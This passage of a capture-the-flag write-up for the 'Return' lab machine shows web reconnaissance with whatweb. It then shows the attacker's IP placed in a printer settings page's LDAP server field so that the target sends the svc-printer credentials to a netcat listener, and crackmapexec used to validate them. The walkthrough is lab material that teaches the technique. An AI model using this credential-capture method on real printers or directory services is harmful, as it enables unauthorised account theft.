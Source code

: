<br/>
<img src="{{ site.img_path }}/return_writeup/Return_01.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<br/>
<img src="{{ site.img_path }}/return_writeup/Return_02.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

Of the many open ports, I filter those that have an **HTTP** protocol to analyze them, if I don't find anything, I continue with other protocols such as **SMB**, **LDAP**, etc. I use `watweb` to perform a recognition of the technologies used in the web service exposed on port **80**, nothing interesting. I access it from the browser and surfing a little, I only find the **Settings** page active.

```bash
cat targeted | grep http
whatweb http://10.10.11.108   # --> Microsoft-IIS/10.0
```

<br/>
<img src="{{ site.img_path }}/return_writeup/Return_03.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

I access the **Settings** page, and I see something that catches my attention as soon as I access, there is a form and a **Password** field, which could contain a password, but from the source code I see that it is only a text.

<br/>
<img src="{{ site.img_path }}/return_writeup/Return_04.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

If I analyze the page, it seems that some kind of update is performed on the local server (the victim machine) using the **LDAP** protocol. I will try sending this request to my machine, since I can manipulate the **server** field. With `netcat` I capture the credentials of the user `svc-printer`. I use `crackmapexec` to validate that the user exists and the password is valid, and it is.

> printer.return.local <- Replace with -> 10.10.14.6

```bash
nv -nlvp 389

cme smb 10.10.11.108 -u svc-printer -p '*******'
```

<br/>
<img src="{{ site.img_path }}/return_writeup/Return_05.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<br/>
<img src="{{ site.img_path }}/return_writeup/Return_06.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>
